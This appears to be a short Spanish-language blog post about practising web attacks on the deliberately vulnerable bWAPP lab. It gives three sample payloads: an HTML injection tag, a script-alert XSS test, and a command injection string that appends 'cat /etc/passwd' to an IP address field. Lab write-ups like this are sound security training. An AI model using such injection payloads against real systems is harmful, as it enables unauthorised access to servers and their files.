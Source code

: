 ```yaml
---
typora-copy-images-to: ../assets/img/
typora-root-url: ../
layout: post
title:  "Web vulnerable(bWAPP)"
categories: jekyll update
---
```


Con la página web vulnerable de bWAPP hay muchas formas de aprovecharlas, algunas de ellas son las siguientes:

## Html Injection

`<h1>Hi</h1>`

![html_injection](/../../Imágenes/html_injection.png)



<br>

## XSS

`<script>alert(1)</script>`

![xss_](/assets/img/xss_.png)

<br>



## Command injection

`172.0.0.1; cat /etc/passwd;`

![command_injection](/assets/img/command_injection.png)